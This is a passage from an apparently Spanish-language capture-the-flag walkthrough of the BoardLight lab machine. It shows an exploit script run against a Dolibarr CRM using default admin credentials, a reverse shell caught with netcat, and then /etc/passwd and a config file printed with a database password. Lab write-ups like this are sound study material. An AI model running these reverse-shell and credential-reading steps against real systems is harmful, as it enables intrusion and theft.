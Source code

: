 ```bash
❯ python3 exploit.py http://crm.board.htb admin admin 10.10.16.2 443
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

Verificamos que ganamos acceso al equipo con el usuario `www-data`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.11] 34712
bash: cannot set terminal process group (850): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$
```

## Initial Access

### Information Leakage

Nos encontramos actualmente con un usuario con privilegios limitados, la idea sería convertirnos en `root` o lograr pivotar a otro usuario que quizás tenga más permisos. Revisando el `/etc/passwd` verificamos que solamente los usuarios `root` y `larissa` disponen de `bash`.

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
```

Revisando los directorios en los que nos encontrábamos, logramos visualizar archivos de configuración.

En el archivo `conf.php` logramos visualizar las credenciales de acceso al MySQL.

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ ls -l
total 44
-rw-r--r-- 1 www-data www-data  1736 May 17  2024 conf.php
-rw-r--r-- 1 www-data www-data 16394 Mar  4  2023 conf.php.example
-r-------- 1 www-data www-data 16394 May 13  2024 conf.php.old
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```
